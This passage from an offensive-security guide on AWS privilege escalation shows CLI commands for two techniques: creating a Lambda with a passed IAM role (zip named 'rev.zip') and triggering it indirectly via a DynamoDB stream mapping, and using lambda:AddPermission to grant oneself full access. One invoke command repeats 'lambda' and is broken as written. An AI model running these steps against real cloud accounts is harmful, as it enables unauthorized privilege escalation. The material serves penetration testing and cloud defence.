 Instead of directly invoking the Lambda, the user sets up or utilizes an existing DynamoDB table, linking it to the Lambda through an event source mapping. This setup ensures the Lambda function is **triggered automatically upon a new item** entry in the table, either by the user's action or another process, thereby indirectly invoking the Lambda function and executing the code with the permissions of the passed IAM role.

```bash
aws lambda create-function --function-name my_function \
    --runtime python3.8 --role <arn_of_lambda_role> \
    --handler lambda_function.lambda_handler \
    --zip-file fileb://rev.zip
```

If DynamoDB is already active in the AWS environment, the user only **needs to establish the event source mapping** for the Lambda function. However, if DynamoDB isn't in use, the user must **create a new table** with streaming enabled:

```bash
aws dynamodb create-table --table-name my_table \
    --attribute-definitions AttributeName=Test,AttributeType=S \
    --key-schema AttributeName=Test,KeyType=HASH \
    --provisioned-throughput ReadCapacityUnits=5,WriteCapacityUnits=5 \
    --stream-specification StreamEnabled=true,StreamViewType=NEW_AND_OLD_IMAGES
```

Now it's posible **connect the Lambda function to the DynamoDB table** by **creating an event source mapping**:

```bash
aws lambda create-event-source-mapping --function-name my_function \
    --event-source-arn <arn_of_dynamodb_table_stream> \
    --enabled --starting-position LATEST
```

With the Lambda function linked to the DynamoDB stream, the attacker can **indirectly trigger the Lambda by activating the DynamoDB stream**. This can be accomplished by **inserting an item** into the DynamoDB table:

```bash
aws dynamodb put-item --table-name my_table \
    --item Test={S="Random string"}
```

**Potential Impact:** Direct privesc to the lambda service role specified.

### `lambda:AddPermission`

An attacker with this permission can **grant himself (or others) any permissions** (this generates resource based policies to grant access to the resource):

{% code overflow="wrap" %}
```bash
# Give yourself all permissions (you could specify granular such as lambda:InvokeFunction or lambda:UpdateFunctionCode)
aws lambda add-permission --function-name <func_name> --statement-id asdasd --action '*' --principal arn:<your user arn>

# Invoke the function
aws lambda lambda invoke --function-name <func_name> /tmp/outout
```
{% endcode %}
